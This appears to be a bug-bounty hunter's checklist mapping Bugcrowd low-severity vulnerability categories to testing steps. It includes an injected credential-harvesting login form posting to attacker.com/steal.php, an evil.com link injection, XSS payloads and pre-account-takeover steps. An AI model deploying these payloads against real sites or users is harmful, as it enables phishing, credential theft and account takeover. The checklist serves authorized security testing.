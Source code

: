 ```yaml
---
title: BugCrowd VRT P4 Checklist
author: h0tak88r
date: 2023-10-22
categories: [vulnerability-rating-taxonomy]
tags: [BugCrowd,VRT,P4,Low]
pin: false
---
```



***Server Security Misconfiguration  Misconfigured DNS  Zone Transfer***
- [ ] [DNS-ZONE-TRANSFER-CHECKER](https://pentest-tools.com/network-vulnerability-scanning/dns-zone-transfer-check)

***Server Security Misconfiguration  Mail Server Misconfiguration  Email Spoofing to Inbox due to Missing or Misconfigured DMARC on Email Domain***
- [ ] [DMARC-Inspector](https://dmarcian.com/dmarc-inspector/)
- [ ] [POC](https://emkei.cz/)

 **Server Security Misconfiguration  Database Management System (DBMS) Misconfiguration  Excessively Privileged User / DBA**
- [ ] [[API5 Broken Function Level Authorization (BFLA)]]

**Server Security Misconfiguration  Lack of Password Confirmation  Delete Account**

- [ ] Check for any confirmations when deleting password

**Server Security Misconfiguration  No Rate Limiting on Form**
- [ ] Registration
- [ ] login
- [ ] Email Triggering
- [ ] SMS-Triggering
1. bugcrowd alias h0tak88r+1@bugcrowdninja.com - Intruder - [[No-Rate-Limit]] 

***Server Security Misconfiguration  Missing Secure or HTTPOnly Cookie Flag  Session Token***
- [ ] Check for HTTPOnly Cookie Flag for thr session token and be sure it Really session token

***Server Security Misconfiguration  Lack of Security Headers  Cache-Control for a Sensitive Page***
- [ ] Open Sensitive-Response  Page - No Cache Control or No Expire - Close Browser - Send request in burp - Observe that You can see the same/cached response 

***Server Security Misconfiguration  Clickjacking  Sensitive Click-Based Action***
- [ ] Click Based Actions

****Server Security Misconfiguration  OAuth Misconfiguration  Account Squatting | Pre-ATO***
1. Register an account via victim email or Change your account to unsigned-victim email if there is no confirmation from victim side 
2. Don't Confirm the email
3. Victim register with OAUTH and login his account 
4. Attacker use Credentials in Step(1) to login to the account 

***Server Security Misconfiguration  CAPTCHA  Implementation Vulnerability***
- [ ] [[CAPTCHA Feature]]

***Server Security Misconfiguration  Web Application Firewall (WAF) Bypass  Direct Server Access***
- [ ] Check for original IP in shodan.io or other Alternatives (ipcriminal,....) and make sure it doesn't implement WAF

***Server-Side Injection  Content Spoofing***
- [ ] Check  For Impersonation via <span style="color:#06ea6c"Broken Link Hijacking</span via this [Extension](https://addons.mozilla.org/en-US/firefox/addon/find-broken-links/)
- [ ] Check for <span style="color:#06ea6c"Email HTML Injection</span - by Injecting in all Fields - `<a href="https://evil.com"Click me to Win 100$</a` - Email Triggering Action - Input Field Rendered as HTML content in email

****Server-Side Injection  Server-Side Template Injection (SSTI)  Basic***
- [ ] Basic SSTI That u couldn't exploit Further [[SSTI]] -  [[Parameters Analysis]]

***Server-Side Injection  Content Spoofing  External Authentication Injection***
- [ ] Try Using HTML Injection to Inject a External Authentication Form to Still Credentials from the user
```html
<form action="https://attacker.com/steal.php" method="POST"
	<label for="username"Username:</label
	<input type="text" id="username" name="username" required

	<label for="password"Password:</label
	<input type="password" id="password" name="password" required

	<button type="submit"Log In</button
</form
```

***Broken Authentication and Session Management***

- [ ] Failure to Invalidate Session - On Password Reset and/or Change 
- [ ] Failure to Invalidate Session  On Logout (Client and Server-Side)
	-  In order for this to qualify for the client and server-side variant, you'd need to demonstrate that the session identifiers are not removed from the browser at the time of log out 
- [ ] Clear-text Transmission of Session Token
	- there is no `secure` flag for the session token 
	- `curl http://example.com/path/to/resource`
- [ ] Registration over HTTP
- [ ] Login over HTTP/Or any 

***Sensitive Data Exposure***

- [ ] Pay-Per-Use-Abuse ( API_Keys, Paid Services Tokens,....)
- [ ] EXIF Geo-location Data Not Stripped From Uploaded Images  Manual User Enumeration
- [ ] Token Leakage via Referer  Untrusted 3rd Party
- [ ] Weak Password Reset Implementation  Password Reset Token Sent Over HTTP
- [ ] Sensitive Token in URL  User Facing
- [ ] Via localStorage/sessionStorage  Sensitive Token

  **XSS**
- [ ] Stored  Privileged User to No Privilege Elevation
- [ ] Universal (UXSS) - Data URI - `data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=`
- [ ] Referer XSS - `Referer: http://www.google.com/search?hl=en&q=c5obc'+alert(1)+'p7yd5`

  ***Broken Access Control (BAC)  Server-Side Request Forgery (SSRF)  External***
- [ ] Low Impact of SSRF Vuln, the impact of "external SSRF" is believed to be DoS, information disclosure (in the request), and origin IP disclosure

 ***Broken Access Control (BAC)  Username/Email Enumeration  Non-Brute Force***
- [ ] Found [[IDOR]] or [[Authorization-BAC-API Bugs]] that Leaks Usernames/Emails

 ***Unvalidated Redirects and Forwards  Open Redirect  GET-Based***
- [ ] [[Open Redirect]]

 ***Insufficient Security Configurability*** 
- [ ] No Password Policy - Password:`123`
- [ ] Weak Password Reset Implementation  Token is Not Invalidated After Use
- [ ] Weak 2FA Implementation  2FA Secret Cannot be Rotated
	Rotating the secret means changing this key periodically to enhance security. If the 2FA secret cannot be rotated, it means that once the secret is compromised, an attacker could potentially gain ongoing access to the account without the user’s knowledge, as there is no way for the user to change the secret.
- [ ] Weak 2FA Implementation  2FA Secret Remains Obtainable After 2FA is Enabled
	Look for Leaked 2FA Secret after acticvating 2FA
